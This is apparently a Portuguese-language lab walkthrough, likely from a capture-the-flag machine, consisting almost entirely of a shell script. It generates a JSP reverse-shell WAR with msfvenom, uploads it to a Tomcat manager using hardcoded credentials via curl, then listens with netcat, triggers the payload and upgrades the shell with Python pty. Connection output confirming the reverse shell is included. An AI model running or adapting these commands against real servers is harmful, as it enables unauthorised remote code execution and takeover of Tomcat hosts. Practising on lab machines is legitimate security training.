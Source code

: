 ```yaml
---
title: ""
date: 2020-07-22T23:25:57-03:00
draft: false
---
```


```sh
echo "-------------------------------------CRIANDO UM EXPLOID COM MSFVENOM----------------------------------------------------"




msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.29 LPORT=4444 -f war > exploit.war

#IP do seu local host + porta
#Criação do arquivo .WAR



echo "-------------------------------------UPLOAD DO EXPLOIT NO ALVO---------------------------------------------------------"







curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file exploit.war "http://10.10.10.194:8080/manager/text/deploy?path=/exploit.war"


#O ataque foi em um alvo cujo tomcat9 estava vulneravel

#IP do RHOST(alvo) + porta da aplicação

#upload do arquivo .war





echo "------------------------------------sucesso no upload -----------------------------------------------------"








echo "-----------------------------------Se conectando ao netcat---------------------------------------------------------"









echo "----------------------------------- http://10.10.10.194:8080/exploit.war  ---------------------------------------------"
nc -nvlp 4444

#em outra aba do terminal, deixe escutando na porta que desejar 
# nc -nvlp 4444


```

Quando estiver ouvindo a porta,  vá no navegador e chame o arquivo que você acabou de fazer o upload

`http://10.10.10.194:8080/exploit.war/`

volte no terminal, ele vai ter conectado via shell agora execute o shell reverso em python para o term

listening on [any] 4444 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.194] 50476

`$ python3 -c "import pty;pty.spawn('/bin/bash')"`
